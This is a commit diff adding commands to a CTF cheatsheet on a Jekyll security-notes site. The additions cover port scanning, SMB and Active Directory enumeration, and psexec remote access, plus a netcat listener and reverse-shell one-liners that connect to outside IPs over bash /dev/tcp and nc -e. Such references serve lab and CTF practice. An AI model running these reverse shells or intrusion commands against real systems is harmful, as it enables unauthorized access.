

Before and after one commit to haxrbyte/ghost-shell, a Jekyll site: the page built from docs/Cheatsheets/ctf-cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 851 px. Shown: the whole window at 94% size, without its empty margins (140-1121 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 900 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Expand CTF cheatsheet with additional commands
Added various command examples for CTF activities including port scanning, SMB, BloodHound, RustHound, remote access, web server setup, listener, and reverse shell.

````diff
--- a/docs/Cheatsheets/ctf-cheatsheet.md
+++ b/docs/Cheatsheets/ctf-cheatsheet.md
@@ -20,3 +20,61 @@
 ```bash
 rustscan -a <target> -- -sCV -oA target
 ```
+
+# CFT CheatSheet
+
+# PortScan
+
+```bash
+$ sudo rustscan -a <hostname> -- -sCV -oA <filename>
+```
+
+# SMB
+
+```bash
+$ smbclient -L //server -U username%password
+
+$ smbclient //server/share -U username%password
+```
+
+# BloodHound
+
+```jsx
+$ sudo ./bloodhound containers start
+```
+
+## RustHound
+
+```jsx
+$ rusthound-ce --domain <domain_name> -u <username> -p <password>
+```
+
+# Remote Access
+
+```jsx
+$ impacket-psexec <domain_name>/<username>:'<password>'@<target_ip>
+```
+
+# Web Server
+
+```jsx
+$ python3 -m http.server 8080 -d directory
+```
+
+# Listener
+
+```jsx
+rlwrap nc -nvlp 1337
+
+rlwrap will enhance the shell, allowing you to clear the screen with [CTRL] + [L].
+```
+
+# Reverse Shell
+
+```jsx
+'bash -c "bash -i >& /dev/tcp/1.2.3.4/1337 0>&1"'
+
+python3 -c 'import pty;pty.spawn("/bin/bash")'
+
+nc -e /bin/sh 10.0.0.1 1234
+```
````
